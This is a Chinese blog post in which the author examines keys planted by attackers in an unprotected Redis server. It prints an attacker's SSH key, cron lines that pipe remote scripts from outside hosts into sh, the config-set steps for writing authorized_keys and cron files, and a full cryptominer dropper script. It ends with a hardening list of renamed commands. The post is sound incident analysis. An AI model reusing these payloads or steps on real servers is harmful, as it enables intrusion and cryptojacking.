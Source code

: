 ```yaml
---
title: 关于 Redis 的安全问题
s: about-redis-secure
date: 2016-11-22 18:01:51
tags:
  - Linux
---
```

之前为了方便存一些数据，我在自己 vps 上开了一个公网可以访问的 redis 服务，没有设置密码。今天突然奇想，看了看上面有什么。结果看到了某些不太好的东西。

```
127.0.0.1:6379> keys *
1) \"f17cc4f5e5\"
2) \"crackit\"
3) \"7cc4f5e5\"
127.0.0.1:6379> 
```

有 3 条数据，2 个乱码名字，先看看正常点的名字`crackit`:

```
127.0.0.1:6379> get crackit
\"\\n\\n\\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/cGu3SeRUbTfPVGWZw9hRod+HWik+Ca8Mj0Flxwb2iU2MIOTRLyuB29ZwkgB4WpPEWD3NReSIo1cIYhuAKtVNGF6WgxnsAs++lcbkNGFDXPuhRHkPiiz11ipWtk7xUF3rkVGvbaBO4gNFGSmZ8fvJdqquXM/EtEySURswo1bT5uWsE0TU2Bolw0XbeIPe99Uuw9bTOYP3UvCw2abvOWsRmm5mZAl/mosgDq1NQux0XdO6oT9QTk2ID4pbza8AcTqGFE4rQcOxF/YCpPDwd4lRxmSWl8WmbAWRDolJLxQFuIMZt7sg+yvGj7Z6+ils7/qLvcZx6A5E21Ldcg3UXrKp root@niuoh\\n\\n\\n\\n\"
127.0.0.1:6379> 
```

吖咯，看到了某某人的 `ssh public key`呢。
<!--more-->
这是一种破解 redis 宿主机 ssh 权限的方法：

1. 使用 config set dir /root/.ssh/ # 将 redis 目录设置为 /root/.ssh
2. config set dbfilename \"authorized_keys\" # 将 redis 数据库文件设置为 authorized_keys
3. set 上面的字符串，写于到 2 中的文件

这样就把攻击者的公钥写到了 /root/.ssh 目录的 authorized_keys 文件，进而获得了 ssh 到 root的权限。有个问题是假如宿主机 root 用户没有 `.ssh` 目录时，这个方式会失败。(未实验)

这个主机名让我查到了人哦。

---

看看下一个:

```
127.0.0.1:6379> get f17cc4f5e5
\"\\n\\n*/1 * * * * curl http://104.223.133.27/1 | sh\\n\\n\"
127.0.0.1:6379> 
```

从前面的 `*/1 * * * * ` 来看应该是 `cron job`，这个其实和上面差不多，还是利用了` config set dir|dbfilename` 将内容写入到了`/var/spool/cron/root`文件，这样在定时任务执行时就能做各种shell里能做的事情了。
可惜这个 IP 也不能访问，whois 也查不出个所以然。

---

最后一个

```
127.0.0.1:6379> get 7cc4f5e5
\"\\n\\n*/1 * * * * curl https://cdn.rawgit.com/hextrip/hextripgo/master/install | sh;\\n\\n\"
127.0.0.1:6379> 
```

这个和上一个是同一个套路，不过这个能直接看到 `shellcode` 的内容:
```
#!/bin/sh
ps -fe|grep syslogdaemon |grep -v grep
if [ $? -ne 0 ]
then
nohup /tmp/syslogdaemon -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:3333 -u 49hNrEaSKAx5FD8PE49Wa3DqCRp2ELYg8dSuqsiyLdzSehFfyvk4gDfSjTrPtGapqcfPVvMtAirgDJYMvbRJipaeTbzPQu4 -p x &
if [ ! -f /tmp/syslogdaemon ]
then
curl https://ooo.0o0.ooo/2016/11/27/583a97938c4f9.png|dd of=/tmp/syslogdaemon skip=7664 bs=1;chmod +x /tmp/syslogdaemon
nohup /tmp/syslogdaemon -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:3333 -u 49hNrEaSKAx5FD8PE49Wa3DqCRp2ELYg8dSuqsiyLdzSehFfyvk4gDfSjTrPtGapqcfPVvMtAirgDJYMvbRJipaeTbzPQu4 -p x &
fi
else
echo \"runing.....\"
fi
```

哎呀，中间那个ooo.0o0.ooo好眼熟啊，好像是 v2ex 上某个绿头像的人的站？这个人煞费心机把 ELF 接到 png 后面也是看得我一脸茫然，这是为了不暴露自己么，orz...

虽然说脚本的内容各不相同，但是利用的漏洞都是同一个。哎，我早早地就已经把 `config` 命令禁用了...

```
rename-command CONFIG \"\"
rename-command FLUSHALL \"\"
rename-command FLUSHDB \"\"
rename-command EVAL \"\"
```

也不知道 redis 还有木有其他不安全的地方=-=，没装 cronie , 不用 /root/.ssh 目录不知道会不会安全点。
